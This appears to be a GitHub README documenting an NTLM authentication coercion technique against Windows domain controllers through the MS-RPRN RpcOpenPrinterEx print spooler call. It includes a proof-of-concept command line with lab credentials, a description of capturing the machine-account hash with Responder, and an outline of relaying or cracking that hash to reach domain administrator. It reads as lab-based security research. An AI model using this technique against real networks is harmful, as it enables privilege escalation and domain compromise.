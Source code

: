 # MS-RPRN - Remote call to RpcOpenPrinterEx (opnum 69)

## Summary

 - **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

 - **Protocol version**: 1.0

 - **Function name**: [`RpcOpenPrinterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff)

 - **Function operation number**: `69`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `12345678-1234-abcd-ef00-0123456789ab`, version `1.0`) in order to perform calls to RPC functions of the `MS-RPRN` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. It will then call the remote [`RpcOpenPrinterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcOpenPrinterEx(...)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcOpenPrinterEx(
    [in, string, unique] STRING_HANDLE pPrinterName,
    [out] PRINTER_HANDLE* pHandle,
    [in, string, unique] wchar_t* pDatatype,
    [in] DEVMODE_CONTAINER* pDevModeContainer,
    [in] DWORD AccessRequired,
    [in] SPLCLIENT_CONTAINER* pClientInfo
);
```

 - **pPrinterName**: A `STRING_HANDLE` (section 2.2.1.1.7) for a printer connection, printer object, server object, job object, port object, or port monitor object. For opening a server object, this parameter MUST adhere to the specification in Print Server Name Parameters (section 3.1.4.1.4); for opening all other objects, it MUST adhere to the specification in Printer Name Parameters (section 3.1.4.1.5).


 - **pHandle**: A pointer to a `PRINTER_HANDLE` (section 2.2.1.1.4) that MUST receive the RPC context handle [C706] to the object identified by the `pPrinterName` parameter.


 - **pDatatype**: A pointer to a string that specifies the data type to be associated with the printer handle. This parameter MUST adhere to the specification in Datatype Name Parameters (section 3.1.4.1.1).


 - **pDevModeContainer**: A pointer to a `DEVMODE_CONTAINER` structure. This parameter MUST adhere to the specification in `DEVMODE_CONTAINER` Parameters (section 3.1.4.1.8.1).


 - **AccessRequired**: The access level that the client requires for interacting with the object to which a handle is being opened. The value of this parameter is one of those specified in Access Values (section 2.2.3.1). For rules governing access values, see section 2.2.4.1. If no specific access level is requested, the server MUST assume a generic read access level.

 - **pClientInfo**: A pointer to a `SPLCLIENT_CONTAINER` (section 2.2.1.2.14) structure. This parameter MUST adhere to the specification in `SPLCLIENT_CONTAINER` Parameters (section 3.1.4.1.8.8). The value of the Level member of the container that is pointed to by `pClientInfo` MUST be `0x00000001`.


## References

 - Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1


 - Documentation of function `RpcOpenPrinterEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff